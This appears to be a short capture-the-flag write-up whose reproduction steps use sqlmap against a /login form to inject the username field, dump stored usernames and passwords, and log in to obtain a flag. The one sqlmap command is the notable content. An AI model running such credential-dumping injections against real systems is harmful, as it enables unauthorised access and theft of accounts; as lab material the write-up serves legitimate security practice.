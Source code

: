 
## Title
> Flag

## Description
> Using sqlmap cat fetch username and password.

## Reproduction Steps
1. Run in terminal: sqlmap -u /login --data "username=a&password=b" -p username --dump
2. Wait untill finish
3. Get username and password.
4. Login in /login
5. Flag2 is here
